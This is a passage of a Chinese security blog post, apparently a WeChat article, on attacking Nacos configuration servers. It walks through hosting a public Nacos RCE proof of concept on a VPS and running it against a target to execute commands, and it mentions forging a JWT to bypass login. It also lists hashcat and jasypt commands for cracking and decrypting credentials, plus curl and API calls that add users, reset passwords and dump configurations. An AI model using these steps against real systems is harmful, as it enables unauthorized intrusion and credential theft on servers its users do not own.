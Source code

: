 下载poc：GitHub - FFR66/Nacos_Rce: 网传nacos_rce漏洞poc，并上传到vps上  
  
1. 在vps启动  
  
```
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaWCv6qSfg23ASNYSL5vdeFjKurgdMJaMIsSvLzUicg205IKoic1GHKsLQ/640?wx_fmt=jpeg&from=appmsg "")  
  
默认会在5000端口打开服务  
  
然后本地机器上执行poc  
  
当系统为未授权访问时，可直接触发RCE  
  
Nacos_Rce.py -t 192.168.67.129 -p 5000 -u http://192.168.67.134:8848 -c whoami  
#-t vps ip  
  
#-p 端口地址  
#-u nacos web地址  
  
# -c 指定命令  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiahAuHXrTBrgHicuCUfIfHu7zrMpeRL9YpXiaxAHAib8sFAWR6UqtF3iaRDw/640?wx_fmt=jpeg&from=appmsg "")  
  
如果显示未知用户或者未找到用户，则表示nacos启用了鉴权需要伪造JWT绕过登陆授权，在文件Nacos_Rce.py文件中设置请求头即可。只要能够绕过登陆授权，就可能能RCE。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaBZc7dz3kUGm9wKTUxZZHX8sgvAKpcShO7junCiaH4W6HG9ppmjvQiakg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
```
```  
  
### 10. 密码破解  
### nacos密码bcrypt  
  
hashcat -a 0 -m 3200 hashes.txt rockyou.txt -w 3 -O -D 1,2 --show  
### 配置文件密文 jasypt  
  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringEncryptionCLI input="123456" password="salt123" algorithm="PBEWithMD5AndDES"  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringDecryptionCLI input="MecKdyPwwkD+AqUKPy1GlQ==" password="salt123" algorithm="PBEWithMD5AndDES"  
### 11、常用命令  
  
http://127.0.0.1:8848/nacos/v1/console/server/state  
http://xx.xx.xx.xx/v1/console/server/state  
http://127.0.0.1:8848/nacos/v1/auth/users?search=accurate&pageNo=1&pageSize=9   get查询用户  
curl -v --data-binary "username=test&password=123456" "http://127.0.0.1:8848/nacos/v1/auth/users"  post添加用户  
curl -X PUT 'http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=' -d 'username=test&newPassword=test123'  修改密码  
http://127.0.0.1:8848/nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99  获取配置信息  
http://127.0.0.1:8848/nacos/v1/core/cluster/nodes  获取集群信息  
curl --data-binary "username=nacos&password=nacos" "http://127.0.0.1:8848/nacos/v1/auth/users/login"  登陆  
### 总结  
  
**在网络安全的世界里，停止学习就意味着落后，共勉！**  
  
  
